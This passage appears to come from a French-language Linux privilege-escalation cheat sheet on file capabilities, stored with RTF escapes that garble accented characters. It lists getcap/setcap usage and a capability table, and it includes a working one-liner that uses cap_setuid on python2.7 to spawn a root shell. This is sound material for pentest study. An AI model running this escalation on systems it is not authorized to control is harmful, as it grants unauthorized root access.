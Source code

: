 ```powershell\
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep\
/usr/bin/rlogin               = cap_net_bind_service+ep\
/usr/bin/ping                 = cap_net_raw+ep\
/usr/bin/rsh                  = cap_net_bind_service+ep\
/usr/bin/rcp                  = cap_net_bind_service+ep\
```\
\
### Editer les capacit\'e9s\
\
```powershell\
/usr/bin/setcap -r /bin/ping            # supprime\
/usr/bin/setcap cap_net_raw+p /bin/ping # ajoute\
```\
\
### Capacit\'e9s int\'e9ressantes\
\
Avoir la capacit\'e9 =ep veut dire que le binaire a toutes les capacit\'e9s.\
```powershell\
$ getcap openssl /usr/bin/openssl \
openssl=ep\
```\
\
En alternative, on peut utiliser les capacit\'e9s suivantes pour upgrade nos privil\uc0\u232 ges actuels.\
\
```powershell\
cap_dac_read_search # pouvoir lire n\'92importe quoi\
cap_setuid+ep # setuid\
```\
\
Exemple d\'92escalade de privil\uc0\u232 ges avec `cap_setuid+ep`\
\
```powershell\
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7\
\
$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'\
sh-5.0# id\
uid=0(root) gid=1000(swissky)\
```\
\
| Nom de la capacit\'e9  | Description |\
|---|---|\
| CAP_AUDIT_CONTROL  | Autorise l\'92activation/d\'e9sactivation de l\'92audit du kernel |\
| CAP_AUDIT_WRITE  | Aide \uc0\u224  \'e9crire les enregistrements dans les logs de l\'92audit du kernel |\
| CAP_BLOCK_SUSPEND  | Cette fonctionnalit\'e9 peut bloquer les suspensions du syst\uc0\u232 me   |\
| CAP_CHOWN  | Autorise l\'92utilisateur \uc0\u224  faire des modifications arbitraires aux fichiers UIDs et GIDs |\
| CAP_DAC_OVERRIDE  | Aide \uc0\u224  contourner les v\'e9rifications des permissions de lecture, d\'92\'e9criture ou d\'92ex\'e9cution |\
| CAP_DAC_READ_SEARCH  | Contourne uniquement les v\'e9rifications de permissions de lecture/d\'92ex\'e9cution des fichiers et des r\'e9pertoire  |\
| CAP_FOWNER  | Permet de contourner les contr\'f4les d'autorisation sur les op\'e9rations qui exigent normalement que l'UID du syst\uc0\u232 me de fichiers du processus corresponde \u224  l'UID du fichier  |\
| CAP_KILL  | Autorise l\'92envoi de signaux \uc0\u224  des processus appartenants \u224  d\'92autres  |\
| CAP_SETGID  | Autorise le changement du GID  |\
| CAP_SETUID  | Autorise la changement de l\'92UID  |\
| CAP_SETPCAP  | Aide au transfert et \uc0\u224  la suppression du param\u232 tre actuel \u224  n\'92importe quel PID |\
| CAP_IPC_LOCK  | Aide \uc0\u224  bloquer la m\'e9moire  |\
| CAP_MAC_ADMIN  | Autorise la modification de la configuration ou de l\'92\'e9tat MAC  |\
| CAP_NET_RAW  | Utilise des sockets RAW et PACKET |\
```